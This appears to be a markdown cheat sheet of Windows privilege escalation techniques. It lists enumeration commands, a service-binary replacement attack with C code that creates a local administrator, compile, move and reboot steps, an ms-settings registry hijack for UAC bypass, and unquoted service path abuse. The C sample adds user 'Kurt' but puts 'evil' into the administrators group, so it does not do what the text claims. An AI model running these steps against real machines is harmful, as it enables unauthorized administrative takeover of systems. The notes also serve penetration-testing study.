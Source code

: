 # Windows Privilege Escalation Notes  

## net commands  

Pass a username and gather more info.  

`net user someUsername`  

To find other users.  

`net user`  

Check who is in local administrators group.  

`net localgroup Administrators`  

## os

Find the version and arch of the os.  

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  

Gather information from the hostname, including naming conventions e.g. client001, client002 ...  

`hostname`

Find user privileges.  

`whoami /priv`

Find running processes mapped to specific services, only for un privileged users.  

`tasklist /SVC`  

Find running processes with powershell.  

`Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`  

## Network  

Enumerate the network.  

`ipconfig /all`



## Services  

Are services running program files binaries? These are user installed and the structure and permissions are set by the user or developer.  

Permissions of a service.  

`icacls "C:\Program Files\someDirectory\bin\someBinary.exe"`  

Most relevant permissions.  

```
Mask | Permissions
------------------
F    | Full access 
M    | Modify access
RX   | Read and Execute access
R    | Read-only access
W    | Write-only access
```  

If we find a service with a binary that has full read/write permissions, it can be replaced with something of my choosing.  

The following C code creates a user 'Kurt' and adds him to the local administrator group.  

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user Kurt password123 /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```  

This can be compiled on a kali machine.  

`i686-w64-mingw32-gcc adduser.c -o adduser.exe`  

Move the service binary to keep the original intact.  

`move "C:\Program Files\someDirectoy\bin\someBinary.exe" "C:\Program Files\someDirectory\bin\someBinary_original.exe"`  

Move the malicious binary to the binary the service runs.  

`move adduser.exe "C:\Program Files\someDirectory\bin\someBinary.exe"`  

If we do not have permission to restart this service, we can check if it starts in auto.  

`wmic service where caption="SomeService" get name, caption, state, startmode`  

If the user has reboot permission, a reboot can restart the service automatically and run the malicous binary.  

`shutdown /r /t 0`  


## Integrity levels  

Find group information and integrity level.  

`whoami /groups`  

Change admin password.  

`net user admin newpassw0rd!`  

To change to high integrity level while admin.  

`powershell.exe Start-Process cmd.exe -Verb runAs`  

## Application manifest  

The application manifest is an xml file that informs the os how to handle the program when it is started.  

Using SysinternalsSuite.  

`sigcheck.exe -a -m C:\Windows\System32\aBinary.exe`  

## Processes  

From SysinternalsSuite, use this binary to find out information about a running process.  

`procmon.exe`  

## Reg Keys  

Find attempts to interact with registry keys that give the error.  

`NAME NOT FOUND`  

To tamper with registry keys, we can find our hive with read/write access, this is current user HKEY_CURRENT_USER.  

`HKCU`  

To add a registry key.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`  

To add a registry key with v for value name and t for the type.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`  

To add a value to a registry key, d is the value and f to add silently.  

`REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`  

## Unquoted service paths  

This attack is possible when a service directory and sub-directory has write access but the files within cannot be replaced.  

Windows will attempt to execute this unquoted path.  

`C:\Program Files\My Program\My Service\service.exe`  

In the following way.  

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```  

In the above, a executable  

`My.exe`  

Could be placed in.  

`C:\Program Files\My Program`  

If write permissions are misconfigured.  

## Third-party driver attacks  

Enum drivers.  

`driverquery /v`  

Running gcc on windows, run the bat file first to set up PATH env variable.  

```
mingw-w64.bat
gcc --help
```  

